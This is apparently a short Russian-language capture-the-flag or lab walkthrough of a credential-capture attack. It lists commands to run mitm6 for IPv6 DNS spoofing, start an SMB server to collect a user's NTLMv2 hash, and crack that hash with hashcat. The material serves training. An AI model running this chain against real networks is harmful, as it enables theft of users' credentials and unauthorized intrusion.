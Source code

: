 1. Узнаём имя домена <br>
   nmap --script whois-domain.nse 192.168.0.0/16
2. Запуск утилиты mitm6 <br>
   Pip install mitm6 <br>
   mitm6 –d <название домена> <br>
   После выполнения атаки на атакуемой рабочей станции появится новый DNS-сервер с нашим IPv6-адресом.
   ![img1](./img/img1.png)
3. Создание своего сервера SMB. Не отключая mitm6, создадим SMB сервер: <br>
   python3 smbserver.py -smb2support SMB /root/SMB
4. Бот срабатывает и мы видим аутентификационные данные пользователя (Имя и его NTLMv2-хэш). <br>
   hashcat –m 5600 [NTLMv2] –a 3 –status –o [file], где NTLMv2 – найденный хэш, file – куда запишется найденный пароль и другое. <br>
   Логин и пароль вводим в качестве ответа.

